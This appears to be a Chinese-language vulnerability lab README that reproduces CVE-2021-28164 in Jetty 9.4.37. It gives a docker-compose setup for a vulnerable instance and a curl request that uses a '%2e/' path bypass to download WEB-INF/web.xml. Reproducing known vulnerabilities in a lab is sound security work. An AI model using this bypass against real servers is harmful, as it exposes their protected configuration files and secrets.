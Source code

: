 # Jetty WEB-INF 敏感信息泄露漏洞（CVE-2021-28164）

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5

## 漏洞环境

执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![](1.png)

使用`%2e/`来绕过限制下载web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
